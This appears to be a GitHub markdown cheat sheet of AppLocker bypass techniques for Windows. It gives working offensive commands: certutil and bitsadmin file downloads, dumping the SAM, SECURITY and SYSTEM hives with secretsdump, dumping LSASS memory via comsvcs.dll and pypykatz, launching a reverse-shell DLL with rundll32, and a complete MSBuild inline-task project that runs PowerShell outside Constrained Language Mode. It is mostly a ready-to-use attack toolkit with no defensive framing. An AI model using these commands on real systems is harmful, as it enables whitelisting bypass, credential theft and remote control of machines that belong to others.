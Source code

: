 # Applocker bypasses

## General
* Binaries on C:\Windows are exempted by default
	* C:\Windows\Temp
	* C:\Windows\Tasks
	* Execute powershell scripts but not load them (```.\PowerView.ps1```)
* Use LOLBAS
* Use winrs and spawn cmd.exe instead (```winrs.exe -r:<COMPUTER> cmd.exe```)
* Lateral Movement via PsExec or Scheduled Task bypass it

## LOLBAS
* https://lolbas-project.github.io/#

### File downloading
```
certutil -urlcache -split -f <URL>
bitsadmin /transfer WindowsUpdates /priority normal <URL> C:\\PATH\\TO\\FILE
```

### SAM dumping
```
reg save HKLM\SECURITY C:\Windows\Temp\security.bak
reg save HKLM\SYSTEM C:\Windows\Temp\system.bak
reg save HKLM\SAM C:\Windows\Temp\sam.bak
secretsdump.py -sam sam.bak -security security.bak -system system.bak local
```

### LSASS Dumping
```
Get-Process | Select lsass
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump <LSASS PID> dump.bin full
pypykatz.py lsa minidump <DUMP FILE>
```

### Execute your own DLLs (like revshells)
```
rundll32.exe shell.dll,StartW
```

### MSBuild.exe custom runspace no CLM
```
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
   <MSBuildTest/>
  </Target>
   <UsingTask
    TaskName="MSBuildTest"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
     <Task>
     <Reference Include="System.Management.Automation" />
      <Code Type="Class" Language="cs">
        <![CDATA[

            using System;
            using System.Linq;
            using System.Management.Automation;
            using System.Management.Automation.Runspaces;

            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class MSBuildTest :  Task, ITask
            {
                public override bool Execute()
                {
                    using (var runspace = RunspaceFactory.CreateRunspace())
                    {
                      runspace.Open();

                      using (var posh = PowerShell.Create())
                      {
                        posh.Runspace = runspace;
                        posh.AddScript("<PS COMMAND>");
                                                
                        var results = posh.Invoke();
                        var output = string.Join(Environment.NewLine, results.Select(r => r.ToString()).ToArray());
                        
                        Console.WriteLine(output);
                      }
                    }

                return true;
              }
            }

        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```